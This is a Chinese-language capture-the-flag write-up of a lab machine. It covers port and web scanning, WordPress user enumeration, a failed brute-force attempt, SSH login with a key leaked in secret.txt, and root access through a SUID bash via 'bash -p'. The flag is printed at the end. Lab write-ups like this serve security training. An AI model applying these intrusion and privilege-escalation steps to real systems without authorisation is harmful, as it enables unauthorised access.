









# oscp-voucher
## 信息收集
### nmap端口枚举
```
全端口枚举
└─$ sudo nmap -p- 192.168.146.60                
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-02 10:27 HKT
Nmap scan report for 192.168.146.60
Host is up (0.00020s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
33060/tcp open  mysqlx
MAC Address: 00:0C:29:79:10:FD (VMware)
Nmap done: 1 IP address (1 host up) scanned in 8.28 seconds

指定端口枚举
└─$ sudo nmap -p22,80,33060 -sV -A 192.168.146.60
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-02 10:28 HKT
Nmap scan report for 192.168.146.60
Host is up (0.00029s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:ba:0d:d4:39:05:e3:13:55:57:8f:1b:46:90:db:e4 (RSA)
|   256 0f:35:d1:a1:31:f2:f6:aa:75:e8:17:01:e7:1e:d1:d5 (ECDSA)
|_  256 af:f1:53:ea:7b:4d:d7:fa:d8:de:0d:f2:28:fc:86:d7 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/secret.txt
|_http-generator: WordPress 5.4.2
|_http-title: OSCP Voucher &#8211; Just another WordPress site
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|_    HY000
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.92%I=7%D=8/2%Time=62E88BD4%P=x86_64-pc-linux-gnu%r(NU
SF:LL,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GenericLines,9,"\x05\0\0\0\x0b\x
SF:08\x05\x1a\0")%r(GetRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(HTTPOpt
SF:ions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(RTSPRequest,9,"\x05\0\0\0\x0b\
SF:x08\x05\x1a\0")%r(RPCCheck,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSVersi
SF:onBindReqTCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSStatusRequestTCP,2B
SF:,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fIn
SF:valid\x20message\"\x05HY000")%r(Help,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%
SF:r(SSLSessionReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\
SF:x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(TerminalServerCookie,
SF:9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TLSSessionReq,2B,"\x05\0\0\0\x0b\x0
SF:8\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\
SF:x05HY000")%r(Kerberos,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SMBProgNeg,9,
SF:"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(X11Probe,2B,"\x05\0\0\0\x0b\x08\x05\x
SF:1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY00
SF:0")%r(FourOhFourRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LPDString,9
SF:,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LDAPSearchReq,2B,"\x05\0\0\0\x0b\x08
SF:\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x
SF:05HY000")%r(LDAPBindReq,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SIPOptions,
SF:9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LANDesk-RC,9,"\x05\0\0\0\x0b\x08\x0
SF:5\x1a\0")%r(TerminalServer,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NCP,9,"\
SF:x05\0\0\0\x0b\x08\x05\x1a\0")%r(NotesRPC,2B,"\x05\0\0\0\x0b\x08\x05\x1a
SF:\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000"
SF:)%r(JavaRMI,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(WMSRequest,9,"\x05\0\0\
SF:0\x0b\x08\x05\x1a\0")%r(oracle-tns,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(
SF:ms-sql-s,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(afp,2B,"\x05\0\0\0\x0b\x08
SF:\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x
SF:05HY000")%r(giop,9,"\x05\0\0\0\x0b\x08\x05\x1a\0");
MAC Address: 00:0C:29:79:10:FD (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.29 ms 192.168.146.60

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.30 seconds
```
## 网页目录枚举
### dirsearch
```
└─$ cat dirsearch_res.txt | grep "200\|301\|500"  
[10:31:14] 301 -    0B  - /index.php  ->  http://192.168.146.60/
[10:31:15] 301 -  321B  - /javascript  ->  http://192.168.146.60/javascript/
[10:31:16] 200 -   19KB - /license.txt
[10:31:24] 200 -    7KB - /readme.html
[10:31:25] 200 -   36B  - /robots.txt
[10:31:33] 301 -  319B  - /wp-admin  ->  http://192.168.146.60/wp-admin/
[10:31:33] 200 -    0B  - /wp-config.php
[10:31:33] 301 -  321B  - /wp-content  ->  http://192.168.146.60/wp-content/
[10:31:33] 200 -    0B  - /wp-content/
[10:31:33] 500 -    3KB - /wp-admin/setup-config.php
[10:31:33] 200 -    1KB - /wp-admin/install.php
[10:31:33] 200 -   69B  - /wp-content/plugins/akismet/akismet.php
[10:31:33] 500 -    0B  - /wp-content/plugins/hello.php
[10:31:33] 301 -  322B  - /wp-includes  ->  http://192.168.146.60/wp-includes/
[10:31:33] 200 -    0B  - /wp-cron.php
[10:31:33] 200 -    5KB - /wp-login.php
[10:31:33] 500 -    0B  - /wp-includes/rss-functions.php
[10:31:33] 200 -   45KB - /wp-includes/

```
### nikto
```
└─$ nikto -h "http://192.168.146.60"       
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.146.60
+ Target Hostname:    192.168.146.60
+ Target Port:        80
+ Start Time:         2022-08-02 11:06:53 (GMT8)
---------------------------------------------------------------------------
+ Server: Apache/2.4.41 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'link' found, with contents: <http://192.168.146.60/index.php/wp-json/>; rel="https://api.w.org/"
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Uncommon header 'x-redirect-by' found, with contents: WordPress
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Entry '/secret.txt' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /wp-content/plugins/akismet/readme.txt: The WordPress Akismet plugin 'Tested up to' version usually matches the WordPress version
+ /wp-links-opml.php: This WordPress script reveals the installed version.
+ OSVDB-3092: /license.txt: License file found may identify site software.
+ /: A Wordpress installation was found.
+ Cookie wordpress_test_cookie created without the httponly flag
+ /wp-login.php: Wordpress login found
+ 7919 requests: 0 error(s) and 13 item(s) reported on remote host
+ End Time:           2022-08-02 11:07:48 (GMT8) (55 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```

从dirsearch的搜索结果可以发现这是一个wordpress
<br>
那就直接wpscan
### wpscan
```
└─$ sudo wpscan --url "http://192.168.146.60"
Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://192.168.146.60/robots.txt
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.146.60/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.146.60/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.146.60/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://192.168.146.60/index.php/feed/, <generator>https://wordpress.org/?v=5.4.2</generator>
 |  - http://192.168.146.60/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.4.2</generator>

[+] WordPress theme in use: twentytwenty
 | Location: http://192.168.146.60/wp-content/themes/twentytwenty/
 | Last Updated: 2022-05-24T00:00:00.000Z
 | Readme: http://192.168.146.60/wp-content/themes/twentytwenty/readme.txt
 | [!] The version is out of date, the latest version is 2.0
 | Style URL: http://192.168.146.60/wp-content/themes/twentytwenty/style.css?ver=1.2
 | Style Name: Twenty Twenty
 | Style URI: https://wordpress.org/themes/twentytwenty/
 | Description: Our default theme for 2020 is designed to take full advantage of the flexibility of the block editor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://192.168.146.60/wp-content/themes/twentytwenty/style.css?ver=1.2, Match: 'Version: 1.2'

[+] Enumerating All Plugins (via Passive Methods)

```
枚举插件版本
```
[+] Enumerating All Plugins (via Aggressive Methods)
 Checking Known Locations - Time: 00:02:16 <==============================================> (99024 / 99024) 100.00% Time: 00:02:16
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] akismet
 | Location: http://192.168.146.60/wp-content/plugins/akismet/
 | Last Updated: 2022-07-26T16:13:00.000Z
 | Readme: http://192.168.146.60/wp-content/plugins/akismet/readme.txt
 | [!] The version is out of date, the latest version is 5.0
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.146.60/wp-content/plugins/akismet/, status: 200
 |
 | Version: 4.1.5 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.146.60/wp-content/plugins/akismet/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://192.168.146.60/wp-content/plugins/akismet/readme.txt

```
通过访问/wp-login.php看到能访问后台登录界面

<br>
枚举wordpress用户名
```
[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://192.168.146.60/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

```
### 暴力破解
尝试爆破admin密码
<br>

没爆破出来.. 还把数据库打趴下了
<br>
从nikto可以发现根目录下还有一个secret.txt文件, 访问一下看看
<br>

访问之后发现是一个base64加密

解码之后发现是一个sshkey!
<br>
### 突破边界

在页面可以发现一个oscp的用户, 使用sshkey进行登录

修改权限
```
└─$ chmod 700 key                               
                                                                                                                                  
┌──(aaron㉿aacai)-[~/Desktop/oscp]
└─$ ssh oscp@192.168.146.60 -i key
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 02 Aug 2022 03:12:49 AM UTC

  System load:  0.25               Processes:             211
  Usage of /:   26.0% of 19.56GB   Users logged in:       0
  Memory usage: 60%                IPv4 address for eth0: 192.168.146.60
  Swap usage:   0%


0 updates can be installed immediately.
0 of these updates are security updates.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Sat Jul 11 16:50:11 2020 from 192.168.128.1
-bash-5.0$ 

```
这样就登录上来了
## 提权
### 从攻击机下载linpeas查看信息
```
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: probable
   Tags: [ ubuntu=20.04 ]{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

[+] [CVE-2017-5618] setuid screen v4.5.0 LPE

   Details: https://seclists.org/oss-sec/2017/q1/184
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154

```


发现bash具有suid权限, 在GTFOBins查看如何利用

```
-bash-5.0$ id
uid=1000(oscp) gid=1000(oscp) groups=1000(oscp),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
-bash-5.0$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:79:10:fd brd ff:ff:ff:ff:ff:ff
    inet 192.168.146.60/24 brd 192.168.146.255 scope global dynamic eth0
       valid_lft 68738sec preferred_lft 68738sec
    inet6 fe80::20c:29ff:fe79:10fd/64 scope link 
       valid_lft forever preferred_lft forever

```
在没有使用bash -p之前, 我们的权限是这样的
```
-bash-5.0$ bash -p
bash-5.0# id
uid=1000(oscp) gid=1000(oscp) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd),1000(oscp)
-bash-5.0$ whoami
oscp
```
在使用了bash -p之后, 就提权上来了
```
-bash-5.0$ bash -p
bash-5.0# id
uid=1000(oscp) gid=1000(oscp) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd),1000(oscp)
bash-5.0# whoami
root
bash-5.0# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:79:10:fd brd ff:ff:ff:ff:ff:ff
    inet 192.168.146.60/24 brd 192.168.146.255 scope global dynamic eth0
       valid_lft 66407sec preferred_lft 66407sec
    inet6 fe80::20c:29ff:fe79:10fd/64 scope link 
       valid_lft forever preferred_lft forever
bash-5.0# cd 
bash-5.0# ls
ip
bash-5.0# cd /root
bash-5.0# ls
fix-wordpress  flag.txt  snap
bash-5.0# cat flag.txt 
d73b04b0e696b0945283defa3eee4538

```

## 虽然说这是一个wordpress。。。但是边界突破一点也没用到它😅